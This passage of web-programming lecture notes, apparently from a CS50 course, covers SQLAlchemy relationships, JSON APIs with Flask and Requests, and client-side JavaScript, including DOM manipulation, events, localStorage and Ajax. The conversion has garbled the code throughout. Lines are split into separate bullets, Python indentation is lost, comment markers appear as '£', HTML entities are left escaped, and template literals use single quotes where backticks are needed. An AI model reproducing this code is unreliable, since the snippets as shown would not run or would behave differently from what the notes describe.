    app may need can be built into classes. Adding passengers, for
    example, can be defined as a method in the Flight class
    (in models.py).

-   def add_passenger(self, name):

-   p = Passenger(name=name, flight_id=self.id)

-   db.session.add(p)

-   db.session.commit()

-   Now, after verifying that the flight exists, the all that is needed
    in the book function of application.py is the following:

-   flight.add_passenger(name)

    -   Now, there is on direct creation of passengers in the
        application. It's all handled by the Flight class.

### Relationships

-   One more powerful feature of ORMs is the idea of relationships.
    SQLAlchemy relationships are an easy way to take one table and
    relate it to another table, such that the each can refer to the
    other. A relationship is set up with a single line, which in this
    case would be added to the definition of the Flight class.

-   passengers = db.relationship(&quot;Passenger&quot;, backref=&quot;flight&quot;,
    lazy=True)

    -   passengers is not a column, but rather just a relationship.
        Given a flight object, the passengers property can be used to
        extract all the passenger info for that flight.

    -   backref creates a relationship in the opposite direction,
        from Flight to Passenger.

    -   lazy indicates that the information should be fetched only when
        it's asked for.k

-   With these relationships set up, the code
    in application.py's flight function to list get all passengers is
    extremely simplified.

-   passengers = flight.passengers

-   Once again, SQL's SELECT...¦

-   SELECT &ast; FROM passengers

-   WHERE flight_id = 1

-   SELECT &ast; FROM flights JOIN passengers

-   ON flights.id = passengers.flight_id

-   WHERE passengers.name = &apos;Alice&apos;;

-   ...¦and Python's relationship-powered SELECT.

-   Flight.query.get(1).passengers

-   Passenger.query.filter_by(name=&quot;Alice&quot;).first().flight

## APIs

-   An Application Programming Interface, or API, is a protocol for
    communication between different web applications or different
    components of the same application. These different components will
    want to share information with each other or perform actions on
    other spaces, and APIs allow for this interaction. It is useful,
    then, to have a standard language for how this communication will
    occur.

### JSON

-   One such language is Javascript Object Notation (JSON), which is a
    simple way of representing information in human- and
    computer-readable way so that it can be passed between parts of web
    application.

-   Some example JSON:

-   {

-   &quot;origin&quot; : {

-   &quot;city&quot;: &quot;Tokyo&quot;,

-   &quot;code&quot;: &quot;HND&quot;

-   },

-   &quot;destination&quot;: {

-   &quot;city&quot;: &quot;Shanghai&quot;,

-   &quot;code&quot;: &quot;PVG&quot;

-   },

-   &quot;duration&quot; : 185,

-   &quot;passengers&quot; : &lbrack;&quot;Alice&quot;, &quot;Bob&quot;&rbrack;

-   }

    -   The curly braces enclose a JSON object.

    -   The contents of the JSON object are divided into key-value
        pairs.

    -   origin and duration are themselves JSON objects, which are
        nested in a hierarchical structure.

    -   passengers shows how lists can be values.

-   Often times, the interaction between two APIs happens through the
    URL, which specifics which particular information that should be
    accessed. Some different levels might be:

-   /flights/

-   /flights/28/

-   /flights/28/passengers/

-   /flights/28/passengers/6/

### HTTP Methods

-   Often times, there are different ways an API can be used. For
    example, one might get information about a passenger, register a new
    passenger, or change registration information for a flight.

-   The HTTP request method will correspond to the type of action that
    should be performed. This is simply a convention that many APIs
    follow. Some HTTP methods include:

    -   GET : retrieve a resource

    -   POST : create a new resource

    -   PUT : replace a resource

    -   PATCH : update a resource

    -   DELETE : delete a resource

-   The Python Requests library allows for all these different HTTP
    methods to be used.

-   import requests

-   

-   def main():

-   res = requests.get(&quot;https://www.google.com/&quot;)

-   print(res.text)

-   &minus; &apos;res&apos; (response) is the HTTP response that comes from
    submitting, in this case, a &apos;GET&apos; request to a URL. All the
    following are also valid:

-   &minus; &apos;requests.post(url)&apos;

-   &minus; &apos;requests.put(url)&apos;

-   &minus; &apos;requests.patch(url)&apos;

-   &minus; &apos;requests.delete(url)&apos;

-   &minus; &apos;res.text&apos; is the HTML content of the page that is returned
    from the request.
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<!--~~~~~~~~~~~~~~~~~~~ 21.  (xx) ~~~~~~~~~~~~~~~~~~-->
<p align="left" width="100%">

</p>
<!-- ### {width="7.552083333333333in" height="0.7763888888888889in"} -->

### 

### 

### 

### An Example API

-   To demonstrate the potential for these
    requests, [Fixer](https://fixer.io/), a foreign exchange rate API,
    will be used in the following examples.

-   Accessing the API at the URL
    http://data.fixer.io/api/latest?access_key=apikey&base=EUR&symbols=USD'
    returns the following JSON:

-   {

-   &quot;success&quot;: true,

-   &quot;timestamp&quot;: 1519296206,

-   &quot;base&quot;: &quot;EUR&quot;,

-   &quot;date&quot;: &quot;2018-07-11&quot;,

-   &quot;rates&quot;: {

-   &quot;USD&quot;: 1.177482

-   }

-   }

-   This API can be accessed in Python using the Requests library.

-   res =
    requests.get(&quot;http://data.fixer.io/api/latest?access_key=apikey&base=EUR&symbols=USD&quot;)

-   if res.status_code != 200:

-   raise Exception(&quot;ERROR: API request unsuccessful.&quot;)

-   data = res.json()

-   print(data)

-   &minus; Checking the status code of the HTTP response ensures that the
    API returned what is expected by the application (a JSON formatted
    like the one above). As an aside, here are some common HTTP status
    codes. Generally, a leading 2 indicates a successful response, while
    a leading 4 indicates a failed request.

-   &minus; &apos;200 OK&apos;

-   &minus; &apos;201 Created&apos;

-   &minus; &apos;400 Bad Request&apos;

-   &minus; &apos;403 Forbidden&apos;

-   &minus; &apos;404 Not Found&apos;

-   &minus; &apos;405 Method Not Allowed&apos;

-   &minus; &apos;422 Unprocessable Entity&apos;

-   &minus; &apos;res.json()&apos; simply extracts the JSON response and puts into
    the Python variable &apos;data&apos;.

-   The previous returned the entire, raw JSON returned by the API.
    Since the format of the JSON is consistent and known, the most
    relevant information can be extracted and displayed.

-   rate = data&lbrack;&quot;rates&quot;&rbrack;&lbrack;&quot;USD&quot;&rbrack;

-   print(f&quot;1 EUR is equal to {rate} USD&quot;)

-   For a little more flexibility on what currencies are being
    converted, user input can be taken like so:

-   base = input(&quot;First Currency: &quot;)

-   other = input(&quot;Second Currency: &quot;)

-   res = requests.get(&quot;http://data.fixer.io/api/latest&quot;,

-   params={&quot;access_key&quot;: apikey, &quot;base&quot;: base, &quot;symbols&quot;: other})

    -   What parameters should be passed into params (in this
        case, &quot;access_key&quot;, &quot;base&quot; and &quot;symbols&quot;) are defined in
        the API documentation.

### Creating an API

-   To implement an API for the recurring example of a airline flight
    manager, all that needs to be done is to define a route that returns
    a JSON object, just like Fixer does.

-   from flask import Flask, render_template, jsonify, request

-   

-   &pound; &hellip; other imports, set up code, and routes &hellip;

-   

-   &commat;app.route(&quot;/api/flights/&lt;int:flight_id&gt;&quot;)

-   def flight_api(flight_id):

-   &quot;&quot;&quot;Return details about a single flight.&quot;&quot;&quot;

-   

-   &pound; Make sure flight exists.

-   flight = Flight.query.get(flight_id)

-   if flight is None:

-   return jsonify({&quot;error&quot;: &quot;Invalid flight_id&quot;}), 422

-   

-   &pound; Get all passengers.

-   passengers = flight.passengers

-   names = &lbrack;&rbrack;

-   for passenger in passengers:

-   names.append(passenger.name)

-   return jsonify({

-   &quot;origin&quot;: flight.origin,

-   &quot;destination&quot;: flight.destination,

-   &quot;duration&quot;: flight.duration,

-   &quot;passengers&quot;: names

-   })

-   The route URL is clearly marked as an API, and takes any flight ID
    as a parameter.

-   jsonify is a function provided by Flask that takes in a Python
    dictionary and converts it into JSON.

-   If there is no flight found, an HTTP status code (422) is also
    returned with the JSON to indicate an error has occurred.

-   Seen here again is the readability and simplicity of relationships
    when retrieving passenger information.

-   If a valid flight ID was passed as a parameter, then a JSON object
    with all the flight info and a list of passengers is returned
    (because no status code is specified, it is set to 200 by default).

### API Keys

-   With larger APIs, an often-implemented feature is rate limiting. It
    is undesirable to have users making a large number of requests that
    might overload the API or make it harder for other users to access
    it. To restrict access, users must first obtain an API key (a long
    string) which must be provided with any API request. Keys allow for
    the tracking of individual users only allowing, for example, 100
    requests per hour per user.

    1.  [JavaScript](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/edbb16acf214457690951188c3010235/)

> **Notes -- Lecture 5: JavaScript**

# JavaScript

-   It is useful to distinguish between code that is run by the client,
    the user interacting with a web application, and the server, which
    is the Flask application running the website. The client makes an
    HTTP request to the server, which is a running some Python code. The
    server processes the response to understand what the client is
    asking for, and ultimately sends back some HTML and CSS content
    which is rendered in the client's browser. It is often useful,
    however, to have code that does run client-side. Client-side
    processes reduce load on the server and are often faster.

## Using JavaScript with HTML and CSS

-   JavaScript is a programming language designed to be run inside a web
    browser that is run client-side. There are many different versions
    of JavaScript that are supported by different browsers, but there
    are certain standard versions that are supported by most. In this
    class, one of the more popular, recent versions, ES6, will be used.

-   When embedded directly inside the HTML code for a webpage, it is
    enclosed in &lt;script&gt;&lt;/script&gt; tags.

-   &lt;script&gt;

-   alert(&apos;Hello, world!&apos;);

-   &lt;/script&gt;

-   The previous code example, if placed in the head element, for
    example, would run as soon as the page is loaded. JavaScript can
    also be run in response to events.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   function hello() {

-   alert(&apos;Hello!&apos;);

-   }

-   &lt;/script&gt;

-   &lt;title&gt;My Website&lt;/title&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1&gt;Welcome!&lt;/h1&gt;

-   &lt;button onclick=&quot;hello()&quot;&gt;Click Here!&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   Now, the JavaScript code is contained inside a function. Note
        that the function is delimited by curly braces.

    -   The function hello is never called inside the script element.
        Rather, there is a button element with the onclick attribute
        which has the hello function as its value. The clicking of a
        button is one events that JavaScript understands which can be
        used as a trigger. In this case, that trigger runs
        the hello function.

-   Some other JavaScript events include:

    -   onmouseover : triggers when an element is hovered over

    -   onkeydown : triggers when a key is pressed

    -   onkeyup : triggers when a key is released

    -   onload : triggers when a page is loaded

    -   onblur : triggers when an object loses focus (when moving away
        from an input box, for example)

### Manipulating the DOM

-   Beyond just displaying alerts, JavaScript has the power to actually
    change the contents of a webpage.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   // Function to change heading to say goodbye

-   function hello() {

-   document.querySelector(&apos;h1&apos;).innerHTML = &apos;Goodbye!&apos;;

-   }

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1&gt;Welcome!&lt;/h1&gt;

-   &lt;button onclick=&quot;hello()&quot;&gt;Click Here!&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   document refers to the web page currently being displayed.

    -   querySelector(&apos;tag&apos;) is a function that searches through the
        webpage for a particular CSS selector and returns that element.
        If there are multiple results, only the first result is
        returned.

        -   This function can also be called
            as document.querySelector(&apos;#id&apos;) and document.querySelector(&apos;.class&apos;).
            More sophisticated selectors, selecting only descendants of
            certain elements for example, can also be used.

    -   The innerHTML property of an element is the HTML content
        contained within the element's tags.

    -   When the button is clicked, the text Welcome! changes
        to Goodbye!.

-   This slightly more advanced example showcases the use of variables
    in JavaScript.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   let counter = 0;

-   

-   function count() {

-   counter++;

-   document.querySelector(&apos;#counter&apos;).innerHTML = counter;

-   }

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;counter&quot;&gt;0&lt;/h1&gt;

-   &lt;button onclick=&quot;count()&quot;&gt;Click Here!&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   let is a keyword used to define variables.

    -   counter++ is a shorthand to increment counter by 1.

-   Conditional statements in JavaScript look like this:

-   &lt;script&gt;

-   let counter = 0;

-   

-   function count() {

-   counter++;

-   document.querySelector(&apos;#counter&apos;).innerHTML = counter;

-   

-   if (counter % 10 === 0) {

-   alert(&apos;Counter is at &dollar;{counter}!&apos;);

-   }

-   }

-   &lt;/script&gt;

    -   % is the modulus operator, which returns the remainder of the
        first number divided by the second.

    -   === checks for exact equality in JavaScript; two things must be
        identical for it to return true.

    -   The argument to alert is a template literal, which is like a
        Python format string. &dollar;{counter} is replaced with whatever the
        value of the variable counter is. Backticks are used to delimit
        a template literal.

-   JavaScript can also be factored out of the HTML code entirely.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, function() {

-   document.querySelector(&apos;button&apos;).onclick = count;

-   });

-   

-   let counter = 0;

-   

-   function count() {

-   counter++;

-   document.querySelector(&apos;#counter&apos;).innerHTML = counter;

-   

-   if (counter % 10 === 0) {

-   alert(&apos;Counter is at &dollar;{counter}!&apos;);

-   }

-   }

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;counter&quot;&gt;0&lt;/h1&gt;

-   &lt;button&gt;Click Here!&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   Note that there is no onclick attribute in the HMTL tags for
        the button element. Nonetheless, the function addEventListener,
        which, likes it name suggests, "listens", or waits, until the
        event DOMContentLoaded occurs. This event occurs when the entire
        HTML structure is loaded by the browser. Then, the second
        argument, a function, is called.

    -   JavaScript makes use of "higher order functions", which means
        functions can be passed around like any other value. The
        function being passed is called a "callback" function. The
        callback is called when the event being listened for occurs. In
        this case, that callback sets the onclick property of
        the button element to the count function, ultimately resulting
        in the same functionality as before.

-   Going one step further, the JavaScript code can be factored out of
    the .html file entirely into a separate .js file. Everything that's
    inside the script element from the last example would go into
    the .js file, and the .html would look like this:

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script src=&quot;counter3.js&quot;&gt;&lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;counter&quot;&gt;0&lt;/h1&gt;

-   &lt;button&gt;Click Here!&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   This is exactly the same paradigm that was seen in factoring out
        CSS.

### Variables

-   There are three main keywords used to define variables in
    JavaScript.

    -   const : defines a constant variable that cannot be redefined
        later

    -   let : defines a variable is local to the scope of the innermost
        pair of curly braces surrounding it

    -   var : defines a variable that is local to the function it is
        defined in

-   Here is an example showcasing these different ways to define
    variables:

-   &lt;script&gt;

-   // This variable exists even outside the loop

-   if (true) {

-   var message = &apos;Hello!&apos;;

-   }

-   

-   alert(message);

-   &lt;/script&gt;

    -   Because var was used to define message, there will be no errors
        running this code.

    -   &lt;script&gt;

    -   // This variable does not exist outside the loop

    -   if (true) {

    -   let message = &apos;Hello!&apos;;

    -   }

    -   

    -   alert(message);

    -   &lt;/script&gt;

    -   Because let was used to define message, it cannot be passed
        to alert, which is outside the scope of message. If this were in
        an HTML page, when the page was opened, no alert would pop up.
        If the console were opened in the browser, there would be
        an Uncaught ReferenceError.

    -   &lt;script&gt;

    -   // The value of const variables cannot change

    -   const message = &apos;Hello!&apos;;

    -   message = &apos;Goodbye!&apos;;

    -   

    -   alert(message);

    -   &lt;/script&gt;

    -   Similar to the last example, no alert will pop up. In the
        console, there would be an Uncaught TypeError, since there was
        an attempt to redefine a variable defined with const.

-   The JavaScript console, accessable in
    the **Develop** or **Inspect** menu in a web browser, allows for the
    interactive entry of JavaScript, similiar to the Python console.

-   Here's another example which uses JavaScript to read info from a
    form.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, function() {

-   document.querySelector(&apos;#form&apos;).onsubmit = function() {

-   const name = document.querySelector(&apos;#name&apos;).value;

-   alert(&apos;Hello &dollar;{name}!&apos;);

-   };

-   });

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;form id=&quot;form&quot;&gt;

-   &lt;input id=&quot;name&quot; autocomplete=&quot;off&quot; autofocus
    placeholder=&quot;Name&quot; type=&quot;text&quot;&gt;

-   &lt;input type=&quot;submit&quot;&gt;

-   &lt;/form&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   The callback function here selects the element with the
        id form and sets its onsubmit (another event) property to
        another callback function which sets the const variable name to
        the value property returned from the elemnt with
        id name. name is the input box of a form, so value will be
        whatever the user has entered into the form.

    -   So, this code produces an alert that says hello to whatever name
        the user entered into the form.

### Modifying Style

-   JavaScript can also modify the CSS properties of elements.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, function() {

-   

-   // Change font color to red

-   document.querySelector(&apos;#red&apos;).onclick = function() {

-   document.querySelector(&apos;#hello&apos;).style.color = &apos;red&apos;;

-   };

-   

-   // Change font color to blue

-   document.querySelector(&apos;#blue&apos;).onclick = function() {

-   document.querySelector(&apos;#hello&apos;).style.color = &apos;blue&apos;;

-   };

-   

-   // Change font color to green

-   document.querySelector(&apos;#green&apos;).onclick = function() {

-   document.querySelector(&apos;#hello&apos;).style.color = &apos;green&apos;;

-   };

-   });

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;hello&quot;&gt;Hello!&lt;/h1&gt;

-   &lt;button id=&quot;red&quot;&gt;Red&lt;/button&gt;

-   &lt;button id=&quot;blue&quot;&gt;Blue&lt;/button&gt;

-   &lt;button id=&quot;green&quot;&gt;Green&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   There are three buttons, each of which (after the initial
        callback from loading the webpage) have their onclick properties
        set to a function which sets the style.color property of
        the hello element to a different color. Any CSS property could
        be modified, e.g. style.background-color, style.margin, etc.

-   The repetitiveness of the last example can be reduced.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, function() {

-   

-   // Have each button change the color of the heading

-   document.querySelectorAll(&apos;.color-change&apos;).forEach(function(button)
    {

-   button.onclick = function() {

-   document.querySelector(&apos;#hello&apos;).style.color =
    button.dataset.color;

-   };

-   });

-   

-   });

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;hello&quot;&gt;Hello!&lt;/h1&gt;

-   &lt;button class=&quot;color-change&quot; data-color=&quot;red&quot;&gt;Red&lt;/button&gt;

-   &lt;button class=&quot;color-change&quot; data-color=&quot;blue&quot;&gt;Blue&lt;/button&gt;

-   &lt;button class=&quot;color-change&quot;
    data-color=&quot;green&quot;&gt;Green&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   document.querySelectorAll(&apos;.color-change&apos;) returns an array of
        all elements of the class color-change.

    -   forEach is a built-in JavaScript function that can be called on
        an array that runs a function passed to it on each element of an
        array. The function being passed takes as an argument one
        particular element of the array.

    -   Having all three buttons with the same class, color-change,
        allows for them to be selected together with querySelectorAll.

    -   data-color is a data attribute. Data attributes allow for the
        association of additional information with an element without
        changing how the element is rendered by the browser. Data
        attributes can have any name as long as they start with data-.

    -   Data atrributes can be accessed in the dataset property of an
        element. In this example, data-color is accessed
        in dataset.color.

### Arrow Functions

-   Since functions, especially anonymous functions, are so common in
    JavaScript, ES6 has introduced a new syntax for functions called
    arrow notation that allows for the definition of so-called arrow
    functions.

-   () =&gt; {

-   alert(&apos;Hello, world!&apos;);

-   }

-   

-   x =&gt; {

-   alert(x);

-   }

-   

-   x =&gt; x &ast; 2;

    -   An arrow function is defined without using the word function,
        but rather just with a pair of parentheses enclosing any
        arguments the function takes, followed by an arrow, and finally
        the function body, enclosed in curly braces.

    -   Functions with only one argument can be defined without the use
        of parentheses enclosing the argument list.

    -   Functions that have only one line in the body can drop the curly
        braces and have the body on the same line as the argument list
        and arrow.

-   The previous example could be rewritten more succintly with arrow
    functions.

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   

-   // Have each button change the color of the heading

-   document.querySelectorAll(&apos;.color-change&apos;).forEach(button =&gt; {

-   button.onclick = () =&gt; {

-   document.querySelector(&apos;#hello&apos;).style.color =
    button.dataset.color;

-   };

-   });

-   

-   });

-   One last variation of this color example could use a drop-down menu
    to select colors instead of buttons.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   

-   // Change the color of the heading when dropdown changes

-   document.querySelector(&apos;#color-change&apos;).onchange = function() {

-   document.querySelector(&apos;#hello&apos;).style.color = this.value;

-   };

-   

-   });

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;hello&quot;&gt;Hello!&lt;/h1&gt;

-   &lt;select id=&quot;color-change&quot;&gt;

-   &lt;option value=&quot;black&quot;&gt;Black&lt;/option&gt;

-   &lt;option value=&quot;red&quot;&gt;Red&lt;/option&gt;

-   &lt;option value=&quot;blue&quot;&gt;Blue&lt;/option&gt;

-   &lt;option value=&quot;green&quot;&gt;Green&lt;/option&gt;

-   &lt;/select&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   onchange is the event fired when the selection in a drop-down
        menu is changed.

    -   this refers to whatever value the function is operating on,
        which in this case is document.querySelector(&apos;#color-change&apos;),
        which is the drop-down menu itself. The selected item is
        extracted using the value attribute of the drop-down menu, which
        corresponds to one of the color options.

        -   Note that using this with arrow functions will produce
            different behavior. this inside an arrow function will be
            bound to whatever value this would have taken on inside the
            code that is enclosing the arrow function. By writing
            out function (), then this takes on the value of whatever
            the function is being called on.

### More with JavaScript

-   In the next example, the goal will to be create a to-do list
    application. Here's the starting point:

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   

-   document.querySelector(&apos;#new-task&apos;).onsubmit = () =&gt; {

-   

-   // Create new item for list

-   const li = document.createElement(&apos;li&apos;);

-   li.innerHTML = document.querySelector(&apos;#task&apos;).value;

-   

-   // Add new item to task list

-   document.querySelector(&apos;#tasks&apos;).append(li);

-   

-   // Clear input field

-   document.querySelector(&apos;#task&apos;).value = &apos;&apos;;

-   

-   // Stop form from submitting

-   return false;

-   };

-   

-   });

-   &lt;/script&gt;

-   &lt;title&gt;Tasks&lt;/title&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1&gt;Tasks&lt;/h1&gt;

-   &lt;ul id=&quot;tasks&quot;&gt;

-   &lt;/ul&gt;

-   &lt;form id=&quot;new-task&quot;&gt;

-   &lt;input id=&quot;task&quot; autocomplete=&quot;off&quot; autofocus placeholder=&quot;New
    Task&quot; type=&quot;text&quot;&gt;

-   &lt;input type=&quot;submit&quot;&gt;

-   &lt;/form&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   The tasks unordered list starts empty, but will be populated
        with user input.

    -   In the JavaScript code, when the form is submitted, a
        new li element is assigned to the const variable li using the
        function document.createElement(&apos;li&apos;). Then, the innerHTML of
        that li is set to be whatever the value of the task input field
        is.

    -   The new li is then added to the ul tasks with
        the append(li) function, called on the ul.

    -   Finally, the input field is cleared and the default behavior for
        a form, which is to go to some other website and reload the
        page, is suppressed by returning false.

-   Blank submissions can be omitted by conditionally enabling the
    submit button.

-   // By default, submit button is disabled

-   document.querySelector(&apos;#submit&apos;).disabled = true;

-   

-   // Enable button only if there is text in the input field

-   document.querySelector(&apos;#task&apos;).onkeyup = () =&gt; {

-   document.querySelector(&apos;#submit&apos;).disabled = false;

-   

-   // &hellip;same code as before&hellip;

-   

-   // Disable button again after submit

-   document.querySelector(&apos;#submit&apos;).disabled = true;

-   

-   // Stop form from submitting

-   return false;

-   };

    -   This results in the button only being pressable once some
        keypress has been registered, assuming that the field is then
        populated.

-   The previous implementation would still allow for submission if text
    was entered and then erased from the form. This can be remedied by
    checking that the length property of the value attribute of the form
    input is indeed greater than 0 after every keystroke.

-   // Enable button only if there is text in the input field

-   document.querySelector(&apos;#task&apos;).onkeyup = () =&gt; {

-   if (document.querySelector(&apos;#task&apos;).value.length &gt; 0)

-   document.querySelector(&apos;#submit&apos;).disabled = false;

-   else

-   document.querySelector(&apos;#submit&apos;).disabled = true;

-   };

-   Another feature of JavaScript is the ability to wait for a certain
    amount of time.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   setInterval(count, 1000);

-   });

-   

-   let counter = 0;

-   

-   function count() {

-   counter++;

-   document.querySelector(&apos;#counter&apos;).innerHTML = counter;

-   }

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;counter&quot;&gt;0&lt;/h1&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   The setInterval function takes another function and then the
        interval (in milliseconds), after which the passed function will
        be automatically called over and over.

    -   The result, in this example, is an automatically incrementing
        counter without the need for any buttons.

-   If the previous example were reloaded, the counter would be reset.
    The maintain some persistence, JavaScript can use local storage to
    keep track of some state information.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script&gt;

-   // Set starting value of counter to 0

-   if (!localStorage.getItem(&apos;counter&apos;))

-   localStorage.setItem(&apos;counter&apos;, 0);

-   

-   // Load current value of counter

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   document.querySelector(&apos;#counter&apos;).innerHTML =
    localStorage.getItem(&apos;counter&apos;);

-   

-   // Count every time button is clicked

-   document.querySelector(&apos;button&apos;).onclick = () =&gt; {

-   // Increment current counter

-   let counter = localStorage.getItem(&apos;counter&apos;);

-   counter++;

-   

-   // Update counter

-   document.querySelector(&apos;#counter&apos;).innerHTML = counter;

-   localStorage.setItem(&apos;counter&apos;, counter);

-   }

-   });

-   &lt;/script&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;h1 id=&quot;counter&quot;&gt;&lt;/h1&gt;

-   &lt;button&gt;Click Here!&lt;/button&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   localStorage is the variable that JavaScript can store
        information at. getItem and setItem can be called
        on localStorage to either load or save data. This example first
        tries to load counter, and if it's not there, saves a
        new counter with value 0.

    -   Then, the counter element is initially set to that counter item
        in storage. After that, a variable called counter is used to
        reference the counter item, and after every update of
        the counter variable, the counter item in localStorage has its
        value updated.

    -   Now, closing and reloading the page will not reset the value of
        the counter.

## Integrating JavaScript with Python and Flask

-   Ajax, is used to get more information from server without needing to
    reload an entirely new page. As an example, Ajax can be used with
    the currency conversion example from last week to display a
    conversion without needing to load a new page. This is not done by
    pre-loading all possible exchange rates, but by making an Ajax
    request to the Flask server, which will get a particular exchange
    rate whenever it is asked for. JavaScript can then be used to update
    the DOM to render the new content.

-   Here's the interesting part of application.py. There's not much
    different here from last week, but note that what's being returned
    is not a new webpage, but rather just a JSON object.

-   &commat;app.route(&quot;/convert&quot;, methods=&lbrack;&quot;POST&quot;&rbrack;)

-   def convert():

-   

-   &pound; Query for currency exchange rate

-   currency = request.form.get(&quot;currency&quot;)

-   res = requests.get(&quot;https://api.fixer.io/latest&quot;, params={

-   &quot;base&quot;: &quot;USD&quot;, &quot;symbols&quot;: currency})

-   

-   &pound; Make sure request succeeded

-   if res.status_code != 200:

-   return jsonify({&quot;success&quot;: False})

-   

-   &pound; Make sure currency is in response

-   data = res.json()

-   if currency not in data&lbrack;&quot;rates&quot;&rbrack;:

-   return jsonify({&quot;success&quot;: False})

-   

-   return jsonify({&quot;success&quot;: True, &quot;rate&quot;:
    data&lbrack;&quot;rates&quot;&rbrack;&lbrack;currency&rbrack;})

-   The HTML is simply a basic form. The JavaScript code is in a
    different file, but linked in the head.

-   &lt;html&gt;

-   &lt;head&gt;

-   &lt;script src=&quot;&quot;&gt;&lt;/script&gt;

-   &lt;title&gt;Currency Converter&lt;/title&gt;

-   &lt;/head&gt;

-   &lt;body&gt;

-   &lt;form id=&quot;form&quot;&gt;

-   &lt;input id=&quot;currency&quot; autocomplete=&quot;off&quot; autofocus
    placeholder=&quot;Currency&quot; type=&quot;text&quot;&gt;

-   &lt;input type=&quot;submit&quot; value=&quot;Get Exchange Rate&quot;&gt;

-   &lt;/form&gt;

-   &lt;br&gt;

-   &lt;div id=&quot;result&quot;&gt;&lt;/div&gt;

-   &lt;/body&gt;

-   &lt;/html&gt;

    -   url_for(&apos;static&apos;, filename=&apos;index.js&apos;) is Flask's way of
        incorporating .js files. static is a separate folder.

    -   The result div will contain the conversion, but is currently
        blank.

-   The interesting code is inside of index.js.

-   document.addEventListener(&apos;DOMContentLoaded&apos;, () =&gt; {

-   

-   document.querySelector(&apos;#form&apos;).onsubmit = () =&gt; {

-   

-   // Initialize new request

-   const request = new XMLHttpRequest();

-   const currency = document.querySelector(&apos;#currency&apos;).value;

-   request.open(&apos;POST&apos;, &apos;/convert&apos;);

-   

-   // Callback function for when request completes

-   request.onload = () =&gt; {

-   

-   // Extract JSON data from request

-   const data = JSON.parse(request.responseText);

-   

-   // Update the result div

-   if (data.success) {

-   const contents = &apos;1 USD is equal to &dollar;{data.rate} &dollar;{currency}.&apos;

-   document.querySelector(&apos;#result&apos;).innerHTML = contents;

-   }

-   else {

-   document.querySelector(&apos;#result&apos;).innerHTML = &apos;There was an
    error.&apos;;

-   }

-   }

-   

-   // Add data to send with request

-   const data = new FormData();

-   data.append(&apos;currency&apos;, currency);

-   

-   // Send request

-   request.send(data);

-   return false;

-   };

-   

-   });

    -   An XMLHttpRequest is just an object that will allow an Ajax
        request to be made.

    -   request.open is where the new request is actually initialized,
        with the HTTP method and route being specified.

    -   JSON.parse converts the raw response (request.responseText) into
        an object that can be indexed by keys and values.

    -   The rest of the callback simply updates the HTML using template
        literals to reflect the result of the conversion.

    -   FormData is just an object that holds whatever the user input
        is.

## Websockets

-   The request-response model, which has been the basis for how HTTP
    requests and client-server interaction has been discussed so far, is
    useful as long as data is only being passed when a request is made.
    But, with "full-duplex communication", more simply described as
    real-time communication, there is (or shouldn't be) a need for
    reloading a webpage and making a new request just to check, for
    example, if someone sent a message in a chat room. Websockets are a
    protocol that allow for this type of communication, and Socket.IO is
    a particular JavaScript library that supports this protocol.

-   This example will be based around a voting application that will
